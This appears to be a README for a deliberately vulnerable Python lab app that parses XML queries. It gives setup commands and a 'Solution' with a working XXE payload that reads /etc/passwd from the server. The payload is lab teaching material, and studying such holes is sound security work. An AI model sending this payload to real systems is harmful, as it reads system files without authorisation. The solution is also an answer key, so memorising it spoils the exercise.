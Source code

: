 # Pokedex

## Description:

The application uses XML to send data to the server, which analyzes it and returns information

## Setup:

- Create and activate a python virtual environment
```bash
$ python3 -m venv venv
$ source venv bin activate
```
- Install dependencies
```bash
$ python3 -m pip install -r requirements.txt
```
- Run the application
```bash
$ python3 app.py
```

## Solution:

- The application is vulnerable to XXE attacks. The attacker can include XML entities and extract server information, like so:

```xml
<?xml version="1.0"?>
    <!DOCTYPE query [
    <!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
    <query>
        <name>
            &xxe;
        </name>
    </query>
```